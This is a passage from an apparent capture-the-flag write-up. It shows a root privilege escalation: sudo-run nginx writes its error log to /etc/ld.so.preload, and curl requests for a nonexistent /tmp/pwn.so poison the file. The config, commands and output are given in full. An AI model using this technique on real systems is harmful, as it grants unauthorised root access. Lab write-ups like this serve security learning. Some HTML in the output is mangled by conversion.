 The nginx config looks a lot like before, but this time with an
`error_log` defined (and a new port since nginx is still listening on
others):



    user root;
    error_log /etc/ld.so.preload warn;
    events {
        worker_connections 1024;
    }
    http {
        server {
            listen 1339;
            root /;
            autoindex on;
        }
    }



I'll start that nginx server:



    activemq@broker:/tmp$ sudo /usr/sbin/nginx -c /tmp/nginx.conf 
    activemq@broker:/tmp$ netstat -tnlp | grep 1339
    tcp        0      0 0.0.0.0:1339            0.0.0.0:*               LISTEN      - 



Now there's a server listening on 1339 that writes error logs to
`/etc/ld.so.preload`.

#### Poison ld.so.preload

Now I'll request `/tmp/pwn.so`. The first request looks like a normal
404:



    activemq@broker:/tmp$ curl localhost:1339/tmp/pwn.so
    .md>
    <head><title>404 Not Found</title></head>
    <body>
    <center><h1>404 Not Found</h1></center>
    <hr><center>nginx/1.18.0 (Ubuntu)</center>
    </body>
    <.md>



It's important that the library not exist yet, or it won't error and
thus won't write the log. If I run `curl` again, I'll see errors:



    activemq@broker:/tmp$ curl localhost:1339/tmp/pwn.so
    ERROR: ld.so: object '2023/11/08' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    ERROR: ld.so: object '21' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    ERROR: ld.so: object '13' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    ERROR: ld.so: object '40' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    ERROR: ld.so: object '[error]' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    ERROR: ld.so: object '2426' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    .md>
    <head><title>404 Not Found</title></head>
    <body>